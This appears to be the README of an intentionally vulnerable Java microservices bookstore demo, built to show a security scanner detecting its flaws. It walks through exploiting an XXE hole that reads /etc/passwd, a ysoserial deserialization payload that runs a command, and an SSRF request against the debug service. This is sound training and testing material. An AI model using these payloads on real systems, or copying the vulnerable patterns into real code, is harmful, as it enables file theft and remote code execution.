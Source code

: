 # java-sample-apps
This repo holds a few Java apps that use the microservices architecture (versus a monolythic application). There are 3 microservice apps that implement a "book store".

## The Microservices

### bookstore-frontend (8000)

The bookstore-frontend app is a jax-rs app serving as a front end for the book store, exposing these
endpoints for book management:
 - GET /health
 - POST /add (this endpoint has an XXE vulnerability)
 - POST /delete
 - GET /list
 - GET /debug

### bookstore-data-manager (8001)

The bookstore-data-manager app is a SpringBoot app which holds the book data, offering a few services:
 - GET /ping
 - POST /add
 - POST /update (this "internal only" endpoint has a deserialization vulnerability)
 - POST /delete
 - GET /list
 
### bookstore-devservice (aka debug) (8002) 
 
The bookstore-debug app is a Dropwizard app that offers info to the devs:
 - GET /application/ping
 - GET /application/info?env=qa (this endpoint has an SSRF vulnerability)

## Usage

The first step is to start all 3 of the services, which will run on ports 8000, 8001 and 8002, respectively.

To start normally:
```
$ docker-compose up -d 
```

If you don't want to use docker-compose, each service has a Dockerfile to make running 1 step. Consult each service's `README.md` to see the commands.

### Using the services

You're _supposed_ to do everything through the frontend service.

Get a health check on the entire bookstore service mesh:
```
$ curl http://localhost:8000/health
```

List all the books:
```
$ curl http://localhost:8000/list
```

Add a book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<book><title>The Giving Tree</title><pages>30</pages></book>'
```

Alternatively, you can add a book through the backend service directly, where it expects JSON:
```
$ curl -H "Content-Type: application/json" http://localhost:8001/add -d '{"pages":"30", "title":"The Giving Tree"}'
```

Get debug info on the service:
```
$ curl http://localhost:8000/debug
```

## Detecting the vulnerabilities
To detect the vulnerabilities, start the apps with Contrast enabled as described above.  Then use the services to exercise the code.  It should not be necessary to exploit the vulnerabilities, in order for Contrast to identify the vulnerabilities.

## Exploiting the Vulnerabilities

### XML External Entity (XXE)
The XXE vulnerability can be exploited directly in the bookstore-frontend by adding a new malicious
book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<?xml version="1.0"?><!DOCTYPE book [<!ENTITY xxe SYSTEM "/etc/passwd">]><book><title>foo &xxe;</title><pages>21</pages></book>'
```

Now the contents of `/etc/passwd` has leaked into the the new book title, which you can see by
checking the book titles:
```
$ curl http://localhost:8000/list
```

### Deserialization
The `bookstore-data-manager` offers an "update a book" service that is not supposed to be used from
the outside, which is why it's not available through the `bookstore-frontend`.

This service is available at `/update`, and it accepts a binary, serialized Java object with `Book`
type.

To exploit this, we must first make an exploit that creates a file in `/tmp` as a proof-of-concept:
```
$ git clone https://github.com/frohoff/ysoserial
$ cd ysoserial
$ docker build -t ysoserial .
$ docker run --rm ysoserial CommonsCollections5 '/usr/bin/touch /tmp/hacked' > commonscollections5.ser
```

Now you can send the exploit generated in the `commonscollections5.ser` file:
```
$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@commonscollections5.ser" http://localhost:8001/update
```

To prove that we created this `/tmp/hacked` file, we must shell into the running container. 

If you started with docker-compose, the container ID is something like java-microservice-sample-apps_bookstore-datamanager_1.

If you ran the containers manually, you can start with the ID:
```
$ docker ps
CONTAINER ID        IMAGE                    COMMAND                 CREATED              STATUS              PORTS                              NAMES
*[RUNNING_CONTAINER_ID]*        bookstore-data-manager   "mvn spring-boot:run"
```

Now, using that container ID, we shell into the container and confirm the exploit created the `/tmp/hacked` file:
```
$ docker exec -it java-microservice-sample-apps_bookstore-datamanager_1 ls -al /tmp/hacked
...
-rw-r--r-- 1 root root 0 <time> /tmp/hacked
```

### Server Side Request Forgery (SSRF)
The `bookstore-frontend` exposes a "info" service, only intended for developers. It is intended to be used to rertieve data about different developer environments, but it can be used to force the app to retrieve data from other URLs:
```
$ curl http://localhost:8002/application/info?env=google.com/?
```

Obviously in this case we ask the server to retrieve Google content, but it could as easily be pointed towards URLs typically only accessed within your perimeter.

```
$ curl http://localhost:8002/application/info?env=SECRET
```
